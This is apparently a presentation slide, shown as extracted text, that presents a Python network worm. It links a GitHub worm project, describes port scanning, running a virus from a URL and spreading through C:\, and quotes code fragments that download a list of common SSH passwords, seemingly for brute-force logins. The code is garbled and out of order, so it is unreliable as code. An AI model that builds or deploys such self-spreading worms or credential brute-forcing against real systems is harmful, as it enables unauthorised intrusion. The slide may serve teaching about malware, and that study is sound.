

# Source Code of a Worm virus in Python Code
https://github.com/pylyf/NetWorm/blob/master/worm.py
Scan the open ports. Run a text file with virus from url. Use Threads to spread in C:\\
if __name__ == "__main__":
    main()
 logger.debug("Downloading passwords...")
url = "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt"
    urllib.request.urlretrieve(url, filename)
    logger.debug("Passwords downloaded!")

5